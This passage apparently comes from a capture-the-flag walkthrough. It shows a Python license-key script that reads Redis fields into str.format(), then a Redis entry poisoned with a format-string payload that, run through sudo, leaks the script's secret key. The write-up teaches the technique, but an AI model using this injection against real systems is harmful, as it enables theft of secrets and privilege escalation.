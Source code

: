 ```python
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

So this script is reading data from Redis. Notice this:
```python
...
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
...
```

So what if we dump the secret value by modifying the first-name to `{license.__init__.__globals__[secret_encoded]}` in our existing site:
```bash
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> HMSET foo first-name "{license.__init__.__globals__[secret_encoded]}" last-name foo username foo
OK
redis /var/run/redis/redis.sock> exit
```

Now let's try to check the license for our `foo` user:
```bash
cooper@format:~$ sudo /usr/bin/license -p foo

Plaintext license key:
------------------------------------------------------
microblogfooC>ZZNBP)nzjMVI*eECtC,4_~_rh}(AgvM^f-_<k}b'unCR4ckaBL3Pa$$w0rd'foo

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABk3oTitvSJmQSl65MfG4KqjkonzL1T112iQGinpYCXe9lfmOCBma0UjB-9pf51SrxvFOIL97zaCIiYOfvwgbEa4vp2nnu--pm3ku__ZkWLsDxVvBsCmaD1_6q4PRukw-i_wczWUP4CCXGBlt2Xw7niIX2vr4FvgtoSgXk3zquLYPj0TdI=
```
